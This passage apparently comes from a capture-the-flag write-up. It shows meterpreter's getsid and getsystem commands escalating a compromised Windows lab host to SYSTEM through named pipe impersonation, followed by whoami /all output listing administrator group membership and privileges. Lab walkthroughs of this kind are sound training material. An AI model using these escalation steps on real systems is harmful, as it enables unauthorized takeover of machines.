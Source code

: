 ```
meterpreter > getsid
Server SID: S-1-5-21-1786406921-1914792807-2072761762-1108
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

```

Using meterpreter I was able to get the SID of the server and escalate myself to `NT AUTHORITY/SYSTEM`.

```
PS C:\Users\jmorgan\Documents> whoami /all
whoami /all

USER INFORMATION
----------------

User Name     SID                                           
============= ==============================================
acute\jmorgan S-1-5-21-1786406921-1914792807-2072761762-1108


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
```